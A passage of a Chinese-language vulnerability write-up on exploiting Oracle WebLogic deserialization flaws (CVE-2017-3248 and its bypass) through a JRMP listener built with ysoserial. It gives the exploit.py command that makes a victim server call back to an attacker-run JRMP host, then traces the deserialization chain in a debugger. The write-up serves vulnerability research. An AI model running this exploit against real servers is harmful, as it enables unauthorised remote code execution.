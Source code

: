 向目标Weblogic（ip:7001/console）发送数据包：

```
python2 exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，victim ip和victim port是目标weblogic的IP和端口，path to ysoserial是本地ysoserial的路径，JRMPListener ip和JRMPListener port第一步中启动JRMP Server的IP地址和端口。JRMPClient是执行JRMPClient的类，可选的值是JRMPClient（针对CVE-2017-3248）或JRMPClient2（针对CVE-2017-3248的绕过）。

最后查看相应目录，

[![](https://p1.ssl.qhimg.com/t011e9f2b42d397a9ba.png)](https://p1.ssl.qhimg.com/t011e9f2b42d397a9ba.png)

可见已成功执行命令。

### <a class="reference-link" name="%EF%BC%88%E4%B8%89%EF%BC%89%E8%B0%83%E8%AF%95"></a>（三）调试

开启JRMP Server后，以exp打之，先是正常的读入字节流进行反序列化（这里很遗憾的一点就是环境对应不到相应的补丁，看不到完全的流程），

ysoserial中，反向连接所需的host和port先存入te，而后存入了LiveRef中，接着封装进 UnicastRef 里，

[![](https://p3.ssl.qhimg.com/t013cbe29f00ea4d17b.png)](https://p3.ssl.qhimg.com/t013cbe29f00ea4d17b.png)

再封装进 RemoteObjectInvocationHandler 中，最后用 Proxy.newProxyInstance 生成了一个 proxy ，这里和之前区别不大，

[![](https://p5.ssl.qhimg.com/t01454f69520de7aa0f.png)](https://p5.ssl.qhimg.com/t01454f69520de7aa0f.png)

exp打过去，会触发RemoteObjectInvocationHandler的反序列化

[![](https://p3.ssl.qhimg.com/t0103fb412c20d5cc9f.png)](https://p3.ssl.qhimg.com/t0103fb412c20d5cc9f.png)

[![](https://p1.ssl.qhimg.com/t01575a0d1319e25640.png)](https://p1.ssl.qhimg.com/t01575a0d1319e25640.png)

RemoteObjectInvocationHandler 反序列化时，会调用其父类 RemoteObject 的 readObject()，

[![](https://p4.ssl.qhimg.com/t01e76279f062a17d14.png)](https://p4.ssl.qhimg.com/t01e76279f062a17d14.png)

因为有重写，会越过这一段，

[![](https://p2.ssl.qhimg.com/t0141f9be689e43e46f.png)](https://p2.ssl.qhimg.com/t0141f9be689e43e46f.png)

在下面调用，

[![](https://p4.ssl.qhimg.com/t01205ad4447730294c.png)](https://p4.ssl.qhimg.com/t01205ad4447730294c.png)

就开始触发。

[![](https://p1.ssl.qhimg.com/t0185fa3cf5eef427cd.png)](https://p1.ssl.qhimg.com/t0185fa3cf5eef427cd.png)
